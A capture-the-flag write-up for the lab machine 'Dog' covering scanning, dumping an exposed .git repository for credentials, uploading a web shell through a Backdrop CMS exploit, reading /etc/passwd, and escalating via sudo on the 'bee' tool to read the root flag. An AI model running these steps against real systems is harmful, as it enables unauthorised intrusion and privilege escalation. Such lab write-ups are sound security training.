 # 🐶Dog

## 🧠Summary
> The vulnerablity found is LFI (local file inclusion).
> A content managment system called as CMS backdrop is used.
> After accessing the system, I found a web-based program that runs without root privileges but still gives root access.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- The result of the nmap scan is  ![](./photo/nmap_scan.png)
- The ssh and http ports are open

## 🖥️Step 2 (Web enumeration)
- Used dirsearch to enumerate the webpage
  ```bash
  dirsearch -u http://dog.htb/
  ```
- The link to the output file 👉 [dirsearch_ouput.txt](./reports/dirsearch.txt)
- Found that the /.git is accessable
- Used git-dumper to download all the git repository
  ```bash
  git-dumper http://dog.htb/.git ./dog_git_repo
  ```

## 🧩Step 3 (loop_hole)
- Checked through the downloaded file and found out 2 important creds
  ![](./photo/password.png)
  ![](./photo/email.png)
- Used this obtained creds to login to the webpage

## 🛜Step 4 (Web admin access)
- I gained the web admin access and used the CVE found in Backdrop CMS (Remote code exicution)
- Uploaded this file into the webpage 👉 [shell.tar](./shell/shell.tar)
- Then used the link "http://dog.htb/module/shell/shell.php?cmd=cat+%2f/etc/passwd"
- Got 2 users jobert and johncusack

## 🌐Step 5 (Foothold)
- Using the above obtained username and the earlier password enter the system using ssh
- jobert (❎ failed)
- johncusack (✅ success)
- Did sudo -l and found that johncusack can run an application called bee
- Used the below command to obtain the root flag
  ```bash
  cd /var/www/html/
  sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
  ```
